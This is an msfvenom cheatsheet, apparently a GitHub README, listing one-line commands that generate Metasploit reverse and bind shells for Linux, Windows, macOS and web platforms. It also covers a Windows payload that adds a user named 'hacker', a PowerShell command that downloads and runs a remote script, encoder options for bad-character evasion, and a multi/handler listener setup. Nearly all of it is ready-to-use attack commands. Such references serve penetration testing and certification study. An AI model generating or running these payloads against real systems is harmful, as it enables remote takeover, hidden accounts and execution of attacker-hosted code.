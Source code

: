 # MSFVenom Cheatsheet
Single Page Cheatsheet for common MSF Venom One Liners  
Available in PDF, DOCX and Markdown format!


# MSFVenom Cheatsheet

|    msfvenom -l   payloads                                                                                                                                                                 |    List available payloads                                     |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
|    msfvenom -p   <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT>   LHOST=<IP>                                                                                                        |    Payload Encoding                                            |
|    msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf   > shell.elf                                                                                           |    Linux Meterpreter  reverse shell x86 multi stage            |
|    msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=<IP> LPORT=<PORT> -f elf   > shell.elf                                                                                              |    Linux Meterpreter  bind shell x86 multi stage               |
|    msfvenom -p linux/x64/shell_bind_tcp   RHOST=<IP> LPORT=<PORT> -f elf > shell.elf                                                                                                      |    Linux bind shell x64 single stage                           |
|    msfvenom -p linux/x64/shell_reverse_tcp   RHOST=<IP> LPORT=<PORT> -f elf > shell.elf                                                                                                   |    Linux reverse shell x64 single stage                        |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe   > shell.exe                                                                                             |    Windows Meterpreter reverse shell                           |
|    msfvenom -p   windows/meterpreter/bind_tcp RHOST= <IP> LPORT=<PORT> -f exe >   shell.exe                                                                                               |    Windows Meterpreter bind shell                              |
|    msfvenom -p   windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe >   shell.exe                                                                                                   |    Windows CMD Multi Stage                                     |
|    msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT>   -f exe > shell.exe                                                                                                     |    Windows CMD Single Stage                                    |
|    msfvenom -p   windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                           |    Windows add user                                            |
|    msfvenom -p   osx/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho >   shell.macho                                                                                               |    Mac Reverse Shell                                           |
|    msfvenom -p   osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho >   shell.macho                                                                                                  |    Mac Bind shell                                              |
|    msfvenom -p   cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw >   shell.py                                                                                                      |    Python Shell                                                |
|    msfvenom -p   cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw >   shell.sh                                                                                                        |    BASH Shell                                                  |
|    msfvenom -p   cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw >   shell.pl                                                                                                        |    PERL Shell                                                  |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp   > shell.asp                                                                                             |    ASP Meterpreter shell                                       |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw >   shell.jsp                                                                                                  |    JSP Shell                                                   |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war >   shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw >   shell.php   cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' >   shell.php && pbpaste >> shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw >   phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object   Net.webClient).downloadString('http://<IP>/nishang.ps1')\""   -f python                        |    Windows Exec Nishang Powershell in   python   1342 bytes    |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=<IP> LPORT=<PORT>   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=<IP> LPORT=<PORT>   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |

# Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,
msf>use exploit multi/handler
msf>set payload windows/meterpreter/reverse_tcp
msf>set lhost <IP>
msf>set lport <PORT>
msf> set ExitOnSession false
msf>exploit -j
The -j option is to keep all the connected session in the background.


# References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675

https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/

http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/
